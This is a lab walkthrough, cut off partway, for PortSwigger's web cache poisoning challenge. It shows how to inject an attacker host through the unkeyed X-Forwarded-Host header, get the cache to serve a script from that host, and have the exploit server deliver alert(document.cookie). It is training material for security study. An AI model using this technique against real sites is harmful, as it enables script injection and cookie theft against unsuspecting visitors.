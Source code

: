 # Portswigger
## Web Cache Poisoning
### Web cache poisoning with an unkeyed header
```bash

# This lab is vulnerable to web cache poisoning because it handles input from an unkeyed header in an unsafe way. An unsuspecting user regularly visits the site's home page. To solve this lab, poison the cache with a response that executes alert(document.cookie) in the visitor's browser. 


Go to: HTTP history
Find:

GET / HTTP/1.1

Send to repeater

Change:

GET / HTTP/1.1

To

GET /?cb=1234 HTTP/1.1

Add:

X-Forwarded-Host: check.com

Like so:

GET /?cb=1234 HTTP/1.1
Host: 0afc008604ffa3ecc08371a7007400ee.web-security-academy.net
X-Forwarded-Host: check.com

Send the request
Response:

X-Cache: hit

<script type="text/javascript" src="//check.com/resources/js/tracking.js">

Go to: "Go to exploit server"

File:

/exploit

To

/resources/js/tracking.js

Body:

alert(document.cookie)

Store

Go to: Repeater
Change:
```
